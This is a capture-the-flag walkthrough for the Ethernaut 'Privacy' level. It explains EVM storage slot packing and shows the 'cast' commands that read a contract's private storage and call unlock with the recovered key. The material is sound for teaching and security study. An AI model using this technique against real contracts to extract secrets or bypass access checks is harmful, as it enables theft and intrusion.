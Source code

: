 ## Privacy Level Outline

**Difficulty : 8/10**

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B)

## Solution

To solve this level, we need an understanding of how contract storage slots work and how they are assigned.

- The wordsize of the EVM is equal to 256 bits (32 bytes)
    - This means that each storage slot has a capacity of 32 bytes
- Statically sized variables are laid out contigously in storage starting at slot 0
    - Statically sized variables reffer to variables with a fixed size 
- If multiple variables of size less than 32 bytes are declared one after another, they are packed into a single storage slot based on the following rules :
    - The first item in a storage slot is stored lower-order aligned (little endian ordering) 
    - If an element type does not fit in the remaining part of a storage slot, it is moved to the next storage slot
    - Structs and array data always start a new slot and occupy whole slots (items inside a struct or array are packed tightly according to the above rules)
- The elements of structs and arrays are stored after each other, just as though they were given explicitly.

##### Extra Info Not Related To Level
- Due to their unpredictable size, mapping and dynamically-sized array types use a Keccak-256 hash computation to find the starting position of the value or the array data. These starting positions are always full stack slots.
- Constant variables are stored in code not contract storage

Read more about layout of state variables in Storage from the docs [here](https://docs.soliditylang.org/en/v0.4.24/miscellaneous.html)

### Walkthrough

*Let's inspect each memory slot individually and make sense of what is going on

##### 1. Inspecting **storage slot 0**
```console
cast storage $LEVEL_ADDRESS 0
```
output 
```console
0x0000000000000000000000000000000000000000000000000000000000000001
```
we know that **storage slot 0** represents the variable `locked` as it is the first declared variable in our contrat. a value of 1 equals true which matches the value assigned to locked.

```solidity
bool public locked = true;
```
boolean types require 1 byte of storage, but because the next variable in our contract : `ID` is of type `uint256`, it takes up 32 bytes to store (a full storage slot) meaning it cannot be packed with `locked` so it stored in the next storage slot. 

##### 2. Inspecting storage slot 1
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x000000000000000000000000000000000000000000000000000000006273be09
```

we know that storage slot 1 represents the variable `ID`. 

```solidity
uint256 public ID = block.timestamp;
```

this means that the data we see is the hex representation of the block's unix timestamp

##### 3. Inspecting storage slot 2
```console
cast storage $LEVEL_ADDRESS 2
```
output 
```console
0x00000000000000000000000000000000000000000000000000000000be09ff0a
```
we know that storage slot 2 represents the variables `flattening`, `denomination`, and `awkwardness` as they can be packed into a single storage slot

```solidity
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
```

remember that the evm uses little endian order when handling byte ordering so we read the memory slot from right to left

- the byte `0a` is the **uint8 variable** `flattening`. We can confirm this as the hex value `0a` is `10` in decimal
- the byte `ff` is the **uint8 variable** `denomination`. We can confirm this as the hex value `ff` is `255` in decimal
- the 2 bytes `be09` is the **uint16 variable** `akwardness`. The hex value represents the 16bit mask of the `block.timestamp`

##### 4. Inspecting storage slot 3
```console
cast storage $LEVEL_ADDRESS 3
```
output 
```console
0x44a557ce091a1a07e9a3901396684f550c3cacb7705a0fd31c8828e285faea82
```
we know that storage slot 3 represents `data[0]`, the first element of the array data

```solidity
bytes32[3] private data;
```

`data` is an array of bytes32 which means that each element takes up 32 bytes (a whole storage slot)

##### 5. Inspecting storage slot 4
```console
cast storage $LEVEL_ADDRESS 4
```
output 
```console
0x640a1bfd48f6be7abf68d08b273284d0e55ba9cfc823d8db74b24e6f486c5204
```
we know that storage slot 4 represents `data[1]`, the second element of the array data

```solidity
bytes32[3] private data;
```

##### 6. Inspecting storage slot 5
```console
cast storage $LEVEL_ADDRESS 5
```
output 
```console
0x08f99efe07ce4fbea4eee5523a0e5d66aeb986ab62a85e5e53c1400155e1ae62
```
we know that storage slot 5 represents `data[2]`, the third element of the array data

```solidity
bytes32[3] private data;
```
we **need** the third element of `data` to pass the level, this is the value that we are interested in

##### 7. Sending transaction to complete the level

Because the "unlock(bytes16 _key)" function expects a bytes16 variable and not a bytes32, we need to only pass the first 16 bytes of `data[2]` to the unlock function to complete this level
```console
cast send $LEVEL_ADDRESS "unlock(bytes16)" 0x08f99efe07ce4fbea4eee5523a0e5d66 --private-key $PRIVATE_KEY
```

## Further Reading
[how to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925) by Darius - A practical guide
